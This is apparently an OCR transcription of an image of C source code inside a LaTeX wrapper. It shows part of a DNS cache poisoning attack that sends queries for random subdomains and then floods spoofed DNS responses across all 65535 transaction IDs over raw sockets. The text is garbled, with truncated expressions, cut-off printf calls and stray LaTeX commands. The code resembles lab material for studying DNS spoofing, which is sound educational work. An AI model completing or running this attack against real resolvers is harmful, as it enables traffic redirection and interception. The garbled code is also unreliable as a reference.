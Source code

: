 \documentclass[a4paper,12pt]{article}
\begin{document}
{		
		
		// int ci=10;
		
		while(1){    	
		
		
		// This is to generate different query in xxxxx.example.com
		    
		
			int charnumber;
			charnumber=1+rand()%
		    *(data_send+charnumber)+=1;
			*(data+charnumber)+=1;
		
		    //send request:
		    udp2->udph_chksum=check_udp_sum(send_buf, packetLength_send-sizeof(struct ipheader)); // recalculate the checksum for the UDP packet
		
		        // send the packet out.
		        if(sendto(sd, send_buf, packetLength_send, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0)
		        printf("packet send error %
		    //Send fake response
		    unsigned short int co=65535;
		    while(co--){
		        dns->query_id=co; // transaction ID for the query packet, use random #
		        udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader)); // recalculate the checksum for the UDP packet
		
		    // send the packet out.
		        if(sendto(sd, buffer, packetLength, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0)
		        printf("packet send error %
		    }
			
		}
		close(sd);
		
		return 0;
		
		}
		\fi
		\restoregeometry
\end{document}
